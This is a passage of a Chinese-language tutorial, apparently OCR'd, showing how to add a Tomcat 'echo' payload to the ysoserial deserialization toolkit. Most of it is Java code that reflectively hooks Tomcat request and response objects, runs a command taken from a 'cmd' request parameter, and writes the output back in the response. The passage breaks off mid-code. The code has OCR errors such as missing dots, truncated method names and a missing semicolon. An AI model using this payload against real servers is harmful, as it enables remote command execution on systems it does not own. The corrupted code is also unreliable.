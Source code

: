 已经有了这样的模板，如何接入ysoserail的createsTemplatesImpl中呢？我们看payloads.util.Gagests.java中一般的模板都长这样

```java
public static Object createTemplatesImpl(final String command) throws Exception {
    return createTemplatesImpl(command, "");
}
```

我们也照猫画虎即可，擦去泛型的部分，并改用完整的类名；同时把command稍作修改，让原本命令行控制的cmd参数变为web请求需要的参数

```java
// https://github.dev/kingkaki/ysoserial/blob/master/src/main/java/ysoserial/payloads/util/Gadgets.java
public static Object createTemplatesImplTomcatEcho(final String command) throws Exception {
    String param = command == null ? "cmd" : command;
    String template = "try {\n" +
        "    java.lang.reflect.Field WRAP_SAME_OBJECT_FIELD = Class.forName(\"org.apache.catalina.coreApplicationDispatcher\").getDeclaredField(\"WRAP_SAME_OBJECT\");\n" +
        "    java.lang.reflect.Field lastServicedRequestField = org.apache.catalina.core.ApplicationFilterChainclass.getDeclaredField(\"lastServicedRequest\");\n" +
        "    java.lang.reflect.Field lastServicedResponseField = org.apache.catalina.core.ApplicationFilterChainclass.getDeclaredField(\"lastServicedResponse\");\n" +
        "    java.lang.reflect.Field modifiersField = java.lang.reflect.Field.class.getDeclaredField(\"modifiers\")\n" +
        "    modifiersField.setAccessible(true);\n" +
        "    modifiersField.setInt(WRAP_SAME_OBJECT_FIELD, 8);\n" +
        "    modifiersField.setInt(lastServicedRequestField, 10);\n" +
        "    modifiersField.setInt(lastServicedResponseField, 10);\n" +
        "    WRAP_SAME_OBJECT_FIELD.setAccessible(true);\n" +
        "    lastServicedRequestField.setAccessible(true);\n" +
        "    lastServicedResponseField.setAccessible(true);\n" +
        "\n" +
        "    ThreadLocal lastServicedResponse = lastServicedResponseField.get(null) != null\n" +
        "        ? (ThreadLocal) lastServicedResponseField.get(null)\n" +
        "        : null;\n" +
        "    ThreadLocal lastServicedRequest = lastServicedRequestField.get(null) != null\n" +
        "        ? (ThreadLocal) lastServicedRequestField.get(null)\n" +
        "        : null;\n" +
        "    boolean WRAP_SAME_OBJECT = WRAP_SAME_OBJECT_FIELD.getBoolean(null);\n" +
        "    String cmd = lastServicedRequest != null\n" +
        "        ? ((javax.servlet.ServletRequest) lastServicedRequest.get()).getParameter(\"" + command + "\"\n" +
        "        : null;\n" +
        "    if (!WRAP_SAME_OBJECT || lastServicedResponse == null || lastServicedRequest == null) {\n" +
        "        lastServicedRequestField.set(null, new ThreadLocal());\n" +
        "        lastServicedResponseField.set(null, new ThreadLocal());\n" +
        "        WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);\n" +
        "    } else if (cmd != null) {\n" +
        "        javax.servlet.ServletResponse responseFacade = (javax.servlet.ServletResponse)lastServicedResponse.get();\n" +
        "        responseFacade.getWriter();\n" +
        "        java.io.Writer w = responseFacade.getWriter();\n" +
        "        java.lang.reflect.Field responseField = org.apache.catalina.connector.ResponseFacade.classgetDeclaredField(\"response\");\n" +
        "        responseField.setAccessible(true);\n" +
        "        org.apache.catalina.connector.Response response = (org.apache.catalina.connector.Response)responseField.get(responseFacade);\n" +
        "        java.lang.reflect.Field usingWriter = org.apache.catalina.connector.Response.class.getDeclaredFiel(\"usingWriter\");\n" +
        "        usingWriter.setAccessible(true);\n" +
        "        usingWriter.set((Object) response, Boolean.FALSE);\n" +
        "\n" +
        "        boolean isLinux = true;\n" +
        "        String osTyp = System.getProperty(\"os.name\");\n" +
```